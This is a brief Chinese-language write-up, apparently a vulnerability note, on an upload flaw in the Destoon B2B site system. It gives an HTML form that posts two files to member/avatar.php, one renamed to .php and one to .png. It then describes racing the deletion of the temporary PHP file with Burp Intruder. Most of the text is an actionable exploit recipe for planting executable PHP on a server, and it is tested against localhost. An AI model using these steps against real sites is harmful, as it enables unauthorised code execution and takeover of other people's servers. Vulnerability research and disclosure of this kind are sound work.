








# Destoon b2b上传漏洞

## 普通会员上传漏洞
首先登录*[提示信息_DESTOON B2B网站管理系统](http://127.0.0.1/member/register.php?action=verify&sid=79d28392e07bfcff22488ff69ab25a51)*注册一个普通用户

漏洞页面上传[会员登录_DESTOON B2B网站管理系统](http://127.0.0.1/member/avatar.php)

为了多个验证，需要上传POST两个文件

```html
<form action="http://127.0.0.1/member/avatar.php?" method="post" enctype="multipart/form-data">
        请选择我的上传文件
	<input type="hidden" name="action" value="upload"/>
        <input type="file" name="file"/>
        <input type="file" name="file1"/>
        <input type="submit" value="上传" />
</form>
```



上传的包第一个是文件名后缀改成php


第二个包后缀改成png





由于文件会被删掉，所以需要进行竞争条件测试

路径 是在file_temp_avatar2.php 2是用户的ID





然后利用burp的intruder模块进行竞争条件测试






https://xz.aliyun.com/t/2797
https://www.scanv.com/news/5bacbdfd38a66c0cf45a4657.html
